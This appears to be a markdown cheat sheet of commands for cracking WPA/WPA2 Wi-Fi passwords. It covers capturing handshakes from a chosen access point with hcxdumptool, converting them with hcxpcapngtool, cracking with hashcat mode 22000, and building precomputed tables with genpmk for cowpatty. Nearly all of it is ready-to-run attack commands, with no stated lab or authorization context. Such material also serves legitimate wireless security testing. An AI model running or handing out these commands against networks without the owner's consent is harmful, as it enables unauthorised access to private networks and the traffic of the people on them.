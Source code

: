 ```bash
sudo hcxdumptool --do_rscan -i <wlan#>
```

Used to complete a Radio Channel Assesment (RCA) scan to learn BSSID/CH/ESSID

```bash
sudo hcxdumptool -i wlan# -o <output.file> --enable_status=3 --filtermode=2 --filterlist_ap=<BSSID>
```

`--enable_status=3`: EAPOL/Association/Reassociation
`--filtermode=2`: used as a filter list since target list will only interact with access points and clients
`--filterlist_ap=<BSSID or list>`: include list of BSSIDs in a `.txt` file or a single BSSID

## HCXPCAPNGTOOL

Conversion of hcxdumptool pcap into a hash file

```bash
hcxpcapngtool -o <output filepcapng>  <capture.pcap>
```

## Cracking WPA Handshakes from HCXTOOLs

```bash
hashcat -m 22000 -w 3 <output file> <wordlist.txt/rule>
```

## WPA Rainbow Tables Example

Are pre-computed hash files that are generated against a network SSID

## Trimming Wordlist

```bash
pw-inspector -i <word.list> -o WPAword.list -m 8 -M 63
```

## Creating Rainbow Table with GenPMK

```bash
genpmk -f WPAword.list -s "SSID" -d <WPA-rainbow.txt>
```

## Cracking .PCAP with Cowpatty

```bash
cowpatty -d <WPA-rainbow.txt> -s "SSID" -r <collection.pcap>
```

## John the Ripper

Open source password security auditing and password recovery tool for OSs using native password.list
